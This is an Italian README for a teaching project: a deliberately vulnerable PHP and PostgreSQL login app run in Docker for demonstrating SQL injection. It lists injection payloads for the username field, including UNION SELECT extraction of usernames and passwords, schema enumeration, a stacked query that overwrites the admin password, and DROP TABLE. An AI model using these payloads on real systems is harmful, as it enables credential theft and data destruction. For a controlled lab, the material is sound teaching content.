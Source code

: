 # SQL Injection Demo (PostgreSQL + PHP)

Questo progetto dimostra attacchi SQL Injection di tipo **in-band** (tautologia, commento, union select, piggybacked query) su un'applicazione PHP vulnerabile con backend PostgreSQL.

---

## 🐳 Avvio dell'ambiente con Docker

Assicurati di avere **Docker e Docker Compose** installati.

### ▶️ Avvio

Nel terminale, esegui:

```bash
docker-compose down -v      # (facoltativo) pulisce volumi e container precedenti
docker-compose up --build   # avvia e costruisce l'ambiente
```

### 🌐 Accesso all'applicazione

Apri il browser su:

```
http://localhost:8080
```

Vedrai una pagina di login vulnerabile.

---

## 🛠️ Accesso diretto al database PostgreSQL

### Entra nel container:

```bash
docker exec -it db psql -U user -d mydb
```

### Una volta dentro `psql`, puoi eseguire:

```sql
\dt                                -- mostra le tabelle
SELECT * FROM utenti;              -- mostra tutti gli utenti
SELECT table_name FROM information_schema.tables WHERE table_schema='public'; -- mostra tutte le tabelle visibili
SELECT column_name FROM information_schema.columns WHERE table_name='utenti'; -- mostra colonne della tabella 'utenti'
```

Per uscire da `psql`:

```sql
\q
```

---

## ⚠️ Note importanti

- Le credenziali del DB sono definite in `docker-compose.yml`.
- Lo script `init.sql` crea la tabella `utenti` con alcuni account di test.
- Tutti i test di SQL Injection vanno eseguiti dalla pagina web (form login).

---

## 🧪 Esempi di SQL Injection (da provare nel campo "username")

| Tipo          | Injection                                                                 |
|---------------|---------------------------------------------------------------------------|
| Tautologia    | `' OR '1'='1' --`                                                         |
| Commento      | `' --`                                                                    |
| Union Select  | `' UNION SELECT id, username, password FROM utenti --`                    |
| Esfiltrazione | `' UNION SELECT NULL, username || ':' || password, NULL FROM utenti --`  |
| Enum. tabelle | `' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema='public' --` |
| Enum. colonne | `' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='utenti' --` |
| Modifica dati | `'; UPDATE utenti SET password='hacked' WHERE username='admin'; --`       |
| Drop Table    | `'; DROP TABLE utenti; --`                                                |

---

## 🧑‍💻 Autore

Progetto didattico per simulare SQL Injection in ambiente controllato.

> ⚠️ Da utilizzare solo a fini educativi.